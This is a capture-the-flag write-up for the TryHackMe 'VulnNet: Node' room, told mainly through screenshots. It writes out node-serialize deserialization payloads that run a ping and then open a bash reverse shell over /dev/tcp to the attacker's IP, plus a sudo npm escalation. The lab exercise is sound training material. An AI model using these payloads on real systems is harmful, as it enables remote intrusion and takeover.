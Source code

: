  Link room: https://tryhackme.com/room/vulnnetnode
 # ENUMERATING
 ## using nmap
![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/56567621-f629-4f71-96c1-23621afbf812)

## using ffuf
![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/4d9572ab-e8bf-429e-aa27-214991d78024)

## view web (port 8080)
![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/af588c4a-9c35-443d-be90-0752fdd8789a)
# EXPLOITING
## using burpsuite
![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/c3570c6f-56ad-4c57-a3af-88b8569e3440)

Decode with base64
 
![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/2bc795b2-18c1-4c47-8f35-2d09c07200d0)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/620b4127-a0eb-4ada-9bbe-ca4d768ca295)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/9574b0dd-fce5-4b5b-8e90-5c64333ee0d2)

edit: ```_$$ND_FUNC$$_function (){require('child_process').exec('ping -c 3 10.9.218.234', function(error, stdout, stderr) { console.log(stdout) });}()```

Encode with base64

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/384b3b81-caa4-4c00-a3f2-debb332fae49)

Then I use BurpSuite to send it 

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/6a694f9b-3815-4077-a9fa-b39e53837f07)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/e8d0f73d-4b05-41d2-8cc8-09c6b7c82795)

=> Nice!!! It's worked. 

edit: ```{"username":"_$$ND_FUNC$$_function (){require('child_process').exec('bash -c \"bash -i >& /dev/tcp/10.9.218.234/1234 0>&1\"', function(error, stdout, stderr) { console.log(stdout) });}()","isGuest":true,"encoding": "utf-8"}```

I continue to encode with base 64 and sent it

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/d9bb5026-e1ee-454f-bdea-cc7ca9f91fe5)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/61a4b2ef-6186-4b12-938b-751a2ae7cafd)


![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/8f3b8a18-2612-41d9-b8fe-c0e7636e1f7a)

=> I get a shell but I receive a message "bash: no job control in this shell".So I fix it with a few familiar commands

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/f461fb1a-1215-47c7-9645-03b520364331)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/1d51a29a-4b9d-4e33-a017-d28f96db876d)

=> Go to GTFOBins and I find it 

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/03d81b6e-77cd-427b-983b-445994c5e9a8)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/8a202fb5-265d-47f8-a2bd-2b8186af6796)

I read /etc/passwd and find username serv-manage.

then I execute the command ``` sudo -u serv-manage /usr/bin/npm -C exploit/ --unsafe-perm i```

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/1096b819-ba79-46f9-ba77-3c4679ba98a9)

 # PRIVILEGE ESCALATION
 ## using sudo -l to check permission
 
 ![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/6d686f26-4055-41c1-9b01-0ad6d2347bd4)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/a27696aa-a441-47a5-b1fb-1be26c848171)

I edit "vulnnet-job.service" file to get reverse shell

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/76839a9a-0110-45b2-a607-f110772b6076)

I excute 3 command with sudo permission

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/6130b089-b4bf-4b69-86e2-3348a7ee5e1b)

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/6f18a854-d8e9-42b9-af48-e6b338543bac)

=> I get root shell

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/9be8bac1-931f-4904-9a8d-32fbc18bb7e8)

=> user.txt

![image](https://github.com/nguyenngocdung18/tryhackme/assets/134156226/5e5c5811-ee0f-4613-b428-f55ea97e6207)

=> root.txt
 ## Done!!!
 Thanks for reading. Bye!
